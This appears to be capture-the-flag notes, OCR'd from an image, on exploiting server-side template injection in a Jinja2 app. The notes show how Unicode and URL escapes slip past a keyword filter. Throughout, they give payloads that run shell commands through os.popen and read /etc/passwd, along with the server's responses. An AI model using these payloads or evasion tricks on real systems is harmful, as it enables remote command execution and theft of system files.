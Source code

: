 ### Bypass Keyword Filters with Unicode Escapes
```python
p\u006Fpen 
```
Strength : 864

```python
{% set a= '\u002e' %}
```
Strength : 1474

Use `f1*` instead of `flag.txt` and `'fl*'` instead of `"fl*"` to avoid triggering `\"` in the regex.

## Exploiting SSTI (python/Jinja2)
### Basic RCE payload
```python
{% self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() %}
```
 Conversions `.` ->  `\u002e` `_` -> `\u005F`

```python
{% self\u002e\u005F\u005Finit\u005F\u005F\u002e\u005F\u005Fglobals\u005F\u005F\u002e\u005F\u005Fbuiltins\u005F\u005F\u002ep\u006Fpen('cat fl*')\u002eread() %}
```
500 Internal Server Error

```python
{% set x = self\u005f\u005finit\u005f\u005f\u002e\u005f\u005fglobals\u005f\u005f\u002e\u005f\u005fbuiltins\u005f\u005f\u002ep\u006fpen('cp fl* static/') %}{% print x.read() %}
```
Hack detected *(due to the `.` in `x.read()`)*
```python
{%25+set+x+%3d+self\u005f\u005finit\u005f\u005f\u002e\u005f\u005fglobals\u005f\u005f\u002e\u005f\u005fbuiltins\u005f\u005f\u002ep\u006fpen('cp+fla*+static/')+%25}{%25+print+x\u005fread()+%25}
```
500 Internal Server Error
```python
{%self\u002e\u005F\u005Finit\u005F\u005F\u002e\u005F\u005Fglobals\u005F\u005F\u002e\u005F\u005Fbuiltins\u005F\u005F\u002e\u005F\u005Fimport\u005F\u005F('\u006Fs')\u002ep\u006Fpen('whoami')\u002eread() %}
```
500 Internal Server Error
### Basic LFI payload
```python
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
 Conversions `.` ->  `\u002e` / `_` -> `\u005F` / `"` -> `'`
```python
{% self\u002e\u005F\u005Finit\u005F\u005F\u002e\u005F\u005Fglobals\u005F\u005F\u002e\u005F\u005Fbuiltins\u005F\u005F\u002eopen('/etc/passwd')\u002eread() %}
```
500 Internal Server Error
